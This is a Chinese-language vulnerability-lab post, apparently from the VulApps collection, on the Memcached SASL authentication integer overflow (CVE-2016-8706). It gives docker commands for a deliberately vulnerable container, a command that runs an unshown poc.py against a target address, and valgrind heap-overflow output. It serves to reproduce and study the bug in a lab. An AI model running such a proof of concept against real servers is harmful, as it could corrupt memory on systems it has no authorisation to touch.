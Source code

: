 ```yaml
---
layout: post
title: "Memcached Server SASL AUTENTICATION 远程代码执行漏洞(CVE-2016-8706)"
date: 2017-03-10 00:15:17 +0800
image: '/assets/img/'
description: 'An integer overflow in processbinsasl_auth function which is responsible for authentication commands of Memcached binary protocol can be abused to cause heap overflow and lead to remote code execution.'
main-class: 'hole'
color: '#B31917'
tags:
- Memcached
- RCE
categories:
- Memcached
twitter_text: 'An integer overflow in processbinsasl_auth function which is responsible for authentication commands of Memcached binary protocol can be abused to cause heap overflow and lead to remote code execution.'
introduction: 'An integer overflow in processbinsasl_auth function which is responsible for authentication commands of Memcached binary protocol can be abused to cause heap overflow and lead to remote code execution.'
---
```


### 说明

 感谢 [@xing-xiao](https://github.com/xing-xiao) 提供原始环境。 #6

### 漏洞信息

* [CVE-2106-8706漏洞信息](http://www.talosintelligence.com/reports/TALOS-2016-0221/)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:m_memcached_CVE-2016-8706
 ```

2. 启动环境
 ```bash
$ docker run -d -p 11211:11211 medicean/vulapps:m_memcached_CVE-2016-8706
 ```

 > 如果需要追溯堆栈，需在启动时 valgrind 调试 memcached，则启动环境命令如下：

 ```bash
$ docker run -i -t -u root -p 11211:11211 medicean/vulapps:m_memcached_CVE-2016-8705 /valgrind.sh
 ```

### 使用国内阿里云镜像

1. 拉取镜像到本地
 ```bash
$ docker pull registry.cn-hangzhou.aliyuncs.com/lo0o/memcached:1.4.32
 ```

2. 启动环境
 ```bash
$ docker run -d -p 11211:11211 registry.cn-hangzhou.aliyuncs.com/lo0o/memcached:1.4.32
 ```

### PoC

1.获取目标 IP 地址与端口号，如：192.168.100.2 端口号为 11211

2.`docker ps` 查看容器ID（如获得的ID为：cfd94f8d5f93）

 附加 memcached 进程用于监测结果：

 ```bash
$ docker attach cfd94f8d5f93
 ```

3.执行 poc.py

```bash
$ python poc.py 192.168.100.2 11211
```

4.查看结果

```
<36 Read binary protocol data:
<36    0x80 0x21 0x00 0x20
<36    0x00 0x00 0x00 0x01
<36    0x00 0x00 0x00 0x01
<36    0x41 0x41 0x41 0x41
<36    0x41 0x41 0x41 0x41
<36    0x41 0x41 0x41 0x41
authenticated() in cmd 0x21 is true
36: going from conn_parse_cmd to conn_nread
==8== Thread 3:
==8== Invalid write of size 8
==8==    at 0x413432: memcpy (string3.h:53)
==8==    by 0x413432: do_item_alloc (items.c:240)
==8==    by 0x4097ED: process_bin_sasl_auth (memcached.c:1881)
==8==    by 0x4097ED: complete_nread_binary (memcached.c:2450)
==8==    by 0x4097ED: complete_nread (memcached.c:2484)
==8==    by 0x40D367: drive_machine (memcached.c:4656)
==8==    by 0x4E47A0B: event_base_loop (in /usr/lib/x86_64-linux-gnu/libevent-2.0.so.5.1.9)
==8==    by 0x414874: worker_libevent (thread.c:380)
==8==    by 0x52A26B9: start_thread (pthread_create.c:333)
==8==  Address 0x5d327e9 is 1,048,505 bytes inside a block of size 1,048,512 alloc'd
==8==    at 0x4C2DB8F: malloc (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
==8==    by 0x40F9DF: memory_allocate (slabs.c:538)
==8==    by 0x40F9DF: do_slabs_newslab (slabs.c:233)
==8==    by 0x40FA6E: do_slabs_alloc (slabs.c:328)
==8==    by 0x41007E: slabs_alloc (slabs.c:584)
==8==    by 0x4131E6: do_item_alloc (items.c:180)
==8==    by 0x4097ED: process_bin_sasl_auth (memcached.c:1881)
==8==    by 0x4097ED: complete_nread_binary (memcached.c:2450)
==8==    by 0x4097ED: complete_nread (memcached.c:2484)
==8==    by 0x40D367: drive_machine (memcached.c:4656)
==8==    by 0x4E47A0B: event_base_loop (in /usr/lib/x86_64-linux-gnu/libevent-2.0.so.5.1.9)
==8==    by 0x414874: worker_libevent (thread.c:380)
==8==    by 0x52A26B9: start_thread (pthread_create.c:333)
==8==
```

> 注意：
>
> 该 PoC 并不会造成服务端崩溃。

### Exp

> 暂无命令执行 Exp，如果你愿意分享该 Exp 可向本仓库发起 [Pull Request](https://github.com/Medicean/VulApps/compare)
